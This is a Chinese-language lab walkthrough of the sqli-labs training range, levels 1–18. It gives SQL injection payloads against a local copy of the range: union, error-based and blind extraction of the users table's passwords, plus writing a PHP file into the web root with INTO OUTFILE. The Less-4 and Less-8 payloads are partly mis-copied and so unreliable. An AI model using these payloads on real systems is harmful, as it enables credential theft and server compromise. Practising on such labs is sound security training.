

# 环境搭建

将下载好的`sqlilabs`解压到`phpstudy`的`www`目录


转到`sqlilabs`项目的`sql-connections`目录，用记事本打开`db-creds.inc`文件，将$dbuser和$dbpass的值修改成mysql数据库的账号与密码, 这里均修改成root

> phpstudy的mysql数据库账号与密码默认为root

	


浏览器打开搭建好的sqlilabs目录，点击`Setup`安装靶场数据库文件

弄完这一步整个靶场环境就搭建完毕了

	


​	

# 闯关过程

## Less-1 

less1的参数类型为字符串

**判断是否存在注入**：`http://127.0.0.1/sqli-labs-master/Less-1/?id=' or 1=1 --+`
 


**判断字段数**：`http://127.0.0.1/sqli-labs-master/Less-1/?id=1 order by 3 --+`  


**获取当前数据库**：`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,database(),3  --+`


**获取所有表名**:`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+`


**获取所有字段名：**`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+`


**获取账号密码**:`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,2,group_concat(username,password) from security.users --+`


## Less-2

less2的参数类型为数字，和第一关的sql注入相似，此处就省略一些注入过程

**less2获取账号密码**：`http://127.0.0.1/sqli-labs-master/Less-2/?id=1 and 1=2 union select 1,2,group_concat(username,password) from security.users --+`


***


## Less-3和Less-4

less3和less4的注入步骤和前面两关一致，只是改变了闭合符号。less3的闭合符号为`')`,less4的是`")`

**less3获取账号密码：**`http://127.0.0.1/sqli-labs-master/Less-3/?id=2') and 1=2 union select 1,2,group_concat(username,password) from security.users --+`

**less4获取账号密码：**`http://127.0.0.1/sqli-labs-master/Less-3/?id=2") and 1=2 union select 1,2,group_concat(username,password) from security.users --+`


## Less-5

直接采用报错注入,也可使用盲注入

**获取当前数据库**：`http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select database()),0x7e),0) --+`


**获取账号密码：**`http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,(select group_concat(username,password) from security.users),0x7e),0) --+`


发现这报错注入返回的信息长度只有32位,可以使用substr函数来解除限制

> substr(str,start,length): 用于截获字符串的某段内容
>
> substr("abcde",2), 返回值是"bcde"
>
> substr("abcde",2,2), 返回值是"bc"

**获取账号密码:** `http://127.0.0.1/sqli-labs-master/Less-5/?id=1' and updatexml(1,concat(0x7e,substr((select group_concat(username,password) from security.users),32),0x7e),0) --+`


## Less-6

与第五关不同的是闭合符号，less5是单引号，less6是双引号

获取账号密码：`http://127.0.0.1/sqli-labs-master/Less-6/?id=1" and updatexml(1,concat(0x7e,substr((select group_concat(username,password) from security.users),32),0x7e),0) --+`


## Less-7

查看php代码发现，不管你是否注入成功，都不会返回你注入后返回的查询信息

遇到这种情况只能通过sql语句对当前页面所在目录写入webshell木马




在sql注入前,先给予靶场目录mysql的写入权限,修改mysql配置文件`mysql.ini`,在其末尾添加上一行`secure_file_priv =`, 随后重启mysql服务
	


**写入webshell木马：**`http://127.0.0.1/sqli-labs-master/Less-7/?id=1')) union select null,0x3c3f70687020706870696e666f28293b3f3e3b,null into outfile 'D:\\phpStudy\\WWW\\sqli-labs-master\\Less-7\\test.php' --+`


写入webshell后查看当前页面所在目录，查看生成的webshell文件`test.php`

	


## Less-8

通过查看php源码可以发现，与less7不同的是闭合符号由双引号改为单引号

```
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo '<font size="5" color="#FFFF00">';	
  	echo 'You are in...........';
  	echo "<br>";
    	echo "</font>";
  	}
	else 
	{
	
	echo '<font size="5" color="#FFFF00">';
	//echo 'You are in...........';
	//print_r(mysql_error());
	//echo "You have an error in your SQL syntax";
	echo "</br></font>";	
	echo '<font color= "#0000ff" font size= 3>';	
	
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

```


**写入webshell木马：**`http://127.0.0.1/sqli-labs-master/Less-8/?id=1')) union select null,0x3c3f70687020706870696e666f28293b3f3e3b,null into outfile 'D:\\phpStudy\\WWW\\sqli-labs-master\\Less-7\\test.php' --+`


## Less-9和Less-10

查看当前页面的php源码，可以发现无论sql注入是否成功，其返回的信息都是一样的，面对此类情况只能采用时间盲注

> 时间盲注：通过判断网页的响应时间来获取数据库相关信息, 通常盲注的时间效率都很低


**猜当前数据库字符串长度:** `http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if(length(database()) = 8,sleep(5),null) --+`


**猜当前数据库的名字:** `http://127.0.0.1/sqli-labs-master/Less-9/?id=1' and if(ascii(substr(database(),1,1)) = 115,sleep(5),null) --+` 


后面的注入流程是猜表名和字段名, 这里就省略过程了, 推荐使用burpsuite进行自动化盲注, 以此提高时间效率

对要猜的


## Less-11

从以下的php源码可看出, 要在账号或密码输入框进行sql注入, 注释符号要改成#

```
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
	$result=mysql_query($sql);
	$row = mysql_fetch_array($result);

	if($row)
	{
		echo 'Your Login name:'. $row['username'];
		echo 'Your Password:' .$row['password'];
  	}
	else  
	{
		print_r(mysql_error());	
		echo "</font>";  
	}
```


**获取字段数:** `1' order by 2#`

**获取当前数据库: **`1' union select 1,database()#`

后续的步骤省略了

	


## Less-12

从php源码可发现这关和Less11相似, 只是闭合符号变成了`')`


**获取字段payload**: `1") order by 2#` 

**获取当前数据库:** `1") union select 1,database()#` 


## Less-13

由php源码发现闭合符号为`')`, 且设置了输出报错信息


**获取当前数据库:** `1') and updatexml(1,concat(0x7e,(select database()),0x7e),0)#`


## Less-14

由php源码发现这关和Less13相似, 只是闭合符号变成了`"`, 依然可采用报错注入


**获取当前数据库:**`1" and updatexml(1,concat(0x7e,(select database()),0x7e),0)#`


## Less-15

通过php源码可知, 闭合符号是`'` 

sql注入是否成功会影响页面的输出信息, 因此这里采用布尔盲注 


**猜数据库的长度:** `' or length(database()) = 8#`

	


## Less-16

和15关注入流程相似, 使用布尔盲注, 闭合符号修改成`")`

**猜数据库的长度:** `") or length(database()) = 8#`


## Less-17

从php源码上看, 这种类型属于密码重置的报错注入, 密码框填sql注入语句, 账号框要填真实的账号		


**获取当前数据库:** `' or updatexml(1,concat(0x7e,(select database()),0x7e),0) or '`


## Less-18

审计php源码, 账号和密码的参数都做了防护, 因此要从别的地方下手, 而且注入的前提是知道账号与密码


 发现有处代码属于插入类型的报错注入, 可对user-agent头置入sql注入语句


**修改user-agent的值:** `' or updatexml(1,concat(0x7e,(database()),0x7e),0) or '`

这里我使用火狐渗透浏览器自带的伪造信息头工具, 当然你也可以使用burpsuite


